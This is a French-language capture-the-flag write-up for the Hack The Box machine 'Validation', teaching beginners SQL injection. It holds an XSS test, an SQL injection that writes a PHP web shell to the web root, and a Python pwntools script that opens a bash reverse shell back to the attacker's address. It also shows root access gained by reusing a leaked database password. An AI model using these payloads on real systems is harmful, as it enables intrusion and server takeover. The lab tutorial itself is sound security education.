










Validation
Machine Validation - htb
- Validation
- 10.10.11.116
- Crée par ippsec
Ce write-up est destiné à quelqu'un qui souhaiterait s'initier à sqli, on va faire cela dans un environnement controlé dans la plateforme Hackthebox. Je tente d'expliquer le processus de A à Z et bien qu'il puisse sembler compliqué pour un néophyte il n'en est rien. Tout a un sens et avec un minimum de travail assidu cela semblera assez simple. D'ailleurs la machine en question est qualifiée de Facile. Il est conseillé d'éffectuer ce tuto dans une machine virtuelle, cela va de soi.
Voir d'autres résolutions de cette machine.
Connection à htb, accés au réséau controlé.
Il faut télécharger le fichier .ovpn et l'executer comme ceci
# sudo openvpn rnek0-1337.ovpn
2022-02-20 17:52:33 WARNING: Compression for receiving enabled. Compression has been used in the past to break encryption. Sent packets are not compressed unless "allow-compression yes" is also set.
#... longue suite de sortie dans le terminal
Ne pas oublier les commandes suivantes pour verifier le tun et le réséau
- $ifconfig
- $netstat -rn
je suis en tun0
Avec l'ip 10.10.14.2
Spawn the machine
Aller dans la page de HTB et cliquer sur le bouton qui va spawn la machine
On aura l'addresse ip de la machine et on clique dessus pour avoir l'ip de la machine :
10.10.11.116
Enumération
A ) On commence par tester si la machine est UP avec un ping :
└╼rnek0$ping -c3 10.10.11.116
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=32.6 ms
64 bytes from 10.10.11.116: icmp_seq=2 ttl=63 time=28.3 ms
64 bytes from 10.10.11.116: icmp_seq=3 ttl=63 time=28.2 ms
--- 10.10.11.116 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 28.171/29.678/32.592/2.060 ms
3 received, 0% packet loss ! la machine est disponible et UP pour l'aventure.
On est devant une machine linux car on a un ttl (time to live) de 63, le tracé des paquets icmp est a un saut (passe par une machine intermediaire) il sera reduit de 1 au passage donc il est prés du 64 correspondant a une machine linux. Pour Windows c'est un 128 en général.
On va se servir de l'outil whichSystem.py pour confirmer :

Au bout d'un moment on crée ses propres scripts, celui-ci et le suivant "extractPorts" ont été crées par S4vitar
Si vous êtes "hispanohablante" et souhaitez vous initier au monde du pentesting, je ne peux que vous conseiller de jetter un coup d'oeuil a son academie sur https://hack4u.io.
B ) On va faire un scan des ports avec nmap pour savoir quels sont les ports ouverts.
#nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-30 02:43 CET
Initiating SYN Stealth Scan at 02:43
Scanning 10.10.11.116 [65535 ports]
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
SYN Stealth Scan Timing: About 50.60% done; ETC: 02:45 (0:00:35 remaining)
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 02:45, 86.10s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.13s latency).
Scanned at 2023-01-30 02:43:58 CET for 86s
Not shown: 52108 filtered tcp ports (no-response), 13423 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 62
4566/tcp open kwtc syn-ack ttl 63
8080/tcp open http-proxy syn-ack ttl 63
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 86.20 seconds
Raw packets sent: 124007 (5.456MB) | Rcvd: 13468 (538.812KB)
PORTS OPEN :
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 62
4566/tcp open kwtc syn-ack ttl 63
8080/tcp open http-proxy syn-ack ttl 63
- Si on regarde nôtre fichier crée par nmap (allPorts) nous avons ceci :
# Nmap 7.93 scan initiated Mon Jan 30 02:43:58 2023 as: nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv -oG allPorts 10.10.11.116
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.116 () Status: Up
Host: 10.10.11.116 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 4566/open/tcp//kwtc///, 8080/open/tcp//http-proxy///
# Nmap done at Mon Jan 30 02:45:24 2023 -- 1 IP address (1 host up) scanned in 86.20 seconds
On va utiliser la fonction bash extractPorts qui est dans nôtre .zshrc pour profiter du fichier grepeable allPorts et copier les ports dans la clipboard (ceci est optionnel):

Maintenant on va donc faire un scan nmap sur ces ports specifiques pour avoir des infos un peu plus en profondeur:
INFOS SUR CES PORTS :
- 22/tcp open ssh syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp open http syn-ack Apache httpd 2.4.48 ((Debian))
- Supported Methods: GET HEAD POST OPTIONS
- 4566/tcp open http syn-ack nginx | _http-title: 403 Forbidden le serveur comprend la requête mais refuse de l'autoriser.
- 8080/tcp open http syn-ack nginx | _http-title: 502 Bad Gateway
Recherche du contenu du service dans le port 80 avec l'outil whatweb
└──╼ #whatweb http://10.10.11.116
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
Nous avons :
* 200 OK -> Succés (la page est servie) indique la réussite d'une requête.
* Debian
Apache[2.4.48]
PHP[7.4.23]
* JQuery
Sur le port 8080 quelques infos mais rien de très interessant
└──╼ #whatweb http://10.10.11.116:8080
http://10.10.11.116:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
- 502 Bad Gateway indique que le serveur, agissant comme une passerelle ou un proxy, a reçu une réponse invalide depuis le serveur en amont.
- nginx
On va donc aller voir le site avec le navigateur:
On voit un formulaire où l'on peut tester les entrées du formulaire et on constate :
- création de user
- interpretation de html: donc on peut faire du bold (écrire en gras en html)
<b>comme ceci</b> - XSS vulnerable avec
<script>alert("XSS)</script>(fonction du langage javascript)
Detail du code html de la page après envoi :
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->
<div class="container">
<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
</div>
<section class="bg-dark text-center p-5 mt-4">
<div class="container p-5">
<h1 class="text-white">Welcome <script>alert("XSS")</script></h1><h3 class="text-white">Other Players In Brazil</h3><li class='text-white'>admin</li><li class='text-white'><b>adminBold</b></li><li class='text-white'><script>alert("XSS")</script></li> </div>
</section>
</div>
On en tire :
- bootstrap 4.1.1
- jquery 3.2.1
Le formulaire :
- method="Post"
<input type="text" name="username" placeholder="Username"><select id="country" name="country">- bouton submit simple
la requette pointe sur account.php, elle sera donc du style :
http://10.10.11.116/account.php?name=toto&country=brazil
On constate quels sont les emplacements que les variables prennent dans le code après la génération du html. Plus tard on ira peut-etre voir le code de la page php... ;)
On va voir qu'est ce que l'on peut faire avec burpsuite qui est une application qui va agir comme un intermédiaire entre la demande de l'utilisateur et la reponse du serveur (ici un fichier en language php qui va générer une page html). Cette application va nous servir à forger nos requettes au lieu d'utiliser le formulaire de la page. On va jouer avec le champ country vu precedemment qui correspond à une variable dans le script php :
Comment savoir si on peut faire une injection sql ? Puis qu'est ce que sql ?
Sql est un language qui permet de faire des demandes à une base de données à partir des pages php dans le cas présent, la base de données contient les informations, on fait la demande avec sql on traite la sortie avec le fichier php qui va générer du code html à la volée, et sera servi à l'utilisateur dans le navigateur; c'est ce que l'on appelle des pages dynamiques d'un site internet.
Les requettes sql sont du style :
Ici on va jouer sur le champ country de la table registration, donc notre requette deviendra comme ceci :

Puis comme on voit ci-dessus, on essaye avec un union select database() -- - et on tombe sur le nom de la base de données. Ici on voit le detail du code html generé et retourné par le serveur.
Avec la commande union select version() -- - et on recupere la version de la base 10.5.11-MariaDB-1




On continue avec les injections jusqu'a tenter d'écrire dans le path de l'url un fichier que l'on va nommer prueba.php que l'on puisse executer en faisant appel a l'url! (L'injection sql va nous permettre d'envoyer le fichier dans le serveur)
Exemple de la query forgée dans burpsuite, faites défiler pour voir la fin de la commande :
username=kiki&country=Afganistan' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
Et la sortie que genere le fichier php, l'erreur correspond au fait que nous n'avons pas passé de variable au paramettre cmd qui est attendu par le morceau de code php que l'on injecte.

Ici on voit que l'on passe la commande whoami a la "variable" cmd et cela nous retourne www-data

Si on passe la commande cat, on obtiens l'affichage du code de la page account.php

Pour finir on va faire un script en python pour automatiser la procédure :
#! /usr/bin/python3
# cf : https://youtu.be/78i-qbhEUVU?t=1479
from pwn import *
import signal, pdb, requests
def def_handler(sig, frame):
print("\n\n[!] Saliendo...\n")
sys.exit(1)
# Ctrl+C
signal.signal(signal.SIGINT, def_handler)
if len(sys.argv) !=3:
log.failure("Uso : %s <ip-address> filename" % sys.argv[0])
sys.exit(1)
# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443
def createFile():
data_post = {
'username': 'kiki',
'country' : """Afganistan' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/%s"-- -""" % (filename)
}
r = requests.post(main_url, data=data_post)
def getAccess():
data_post = {
'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'"
}
r = requests.post(main_url + "%s" % filename, data=data_post)
if __name__ == '__main__':
createFile()
try:
threading.Thread(target=getAccess, args=()).start()
except Exception as e:
log.error(str(e))
shell = listen(lport, timeout=20).wait_for_connection()
shell.interactive()
Voila pour un debut, si vous êtes arrivés jusqu'à ici un bonus sur l'escalade :
On aurait pu vous afficher aussi le code de la page config.php en plus de account.php avec la même requette vue precèdemment dans la capture d'écran (celle avec test.php)
Cela révéle les informations d'identification de la base de données et on peut remarquer que que le mot de passe contient global-pw. C'est un gros indice que ce mot de passe est utilisé ailleurs.
En essayant de faire un su - avec ce mot de passe, on obtient un accès root.
Note : Vous n'obtiendrez pas toujours une invite visible après avoir entré le mot de passe. Si vous entrez une commande telle que whoami vous verrez qu'il vous a bien permis d'avoir un shell en root.